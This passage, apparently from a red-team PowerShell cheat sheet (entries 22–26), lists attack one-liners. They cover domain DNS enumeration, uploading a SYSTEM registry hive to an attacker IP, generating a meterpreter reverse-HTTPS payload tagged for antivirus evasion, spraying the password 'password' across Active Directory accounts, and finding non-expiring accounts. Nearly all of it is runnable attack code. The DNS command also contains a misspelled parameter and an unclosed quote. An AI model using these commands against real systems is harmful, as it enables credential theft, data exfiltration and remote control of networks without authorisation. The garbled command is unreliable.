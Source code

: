 https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504
__________
### 22. list hostname and ip for domain pc's
```
Get-WmiObject -ComputerName [DC] -Namesapce root\microsoftDNS -class MicrosoftDNS_ResourceRecord -Filter "domainname='[domain]' | select textrepresentation
```
**- enumeration,dns,Windows,powershell**
#### References:

https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504
__________
### 23. Powershell upload file VIA post, script must write this out
```
powershell.exe -noprofile -noninteractive -command "[System.Net.ServicePointManager]::ServerCertificateValidationCallback{$true}$server="[$ip]/[script]";$filepath="c:/temp/SYSTEM";$http = new-object System.Net.Webclient; $response = $http.uploadFile($server,$filepath);"
```
**- networking,files,interesting,Windows,powershell**
#### References:

https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504
__________
### 24. powershell shell
```
msfvenom -p Windows/meterpreter/reverse_https -f psh -a x86 LHOST=[lhost] LPORT=[lport] audit.ps1
```
**- metasploit,av evasion,powershell**
#### References:

https://www.offensive-security.com/metasploit-unleashed/msfvenom/
__________
### 25. Simple powershell brute force, user input list, checks the password 'password'
```
Function Test-ADAuthentication {param($username,$password);echo "$username $password";(new-object directoryservices.directoryentry"",$username,$password).psbase.name -ne $null}; forEach ($userName in Get-Content "user_logins.txt"){Test-ADAuthentication $userName password >> test4.txt;}
```
**- loop,brute,Windows,powershell**
#### References:

https://msdn.microsoft.com/en-us/library/system.directoryservices.directoryentry(v=vs.110).aspx
http://serverfault.com/questions/596602/powershell-test-user-credentials-in-ad-with-password-reset
__________
### 26. Check for accounts that don't have password expiry set
```
Get-ADUser -Filter 'useraccountcontrol -band 65536' -Properties useraccountcontrol | export-csv U-DONT_EXPIRE_PASSWORD.csv
```
**- enumeration,user information,Windows,powershell**
#### References:
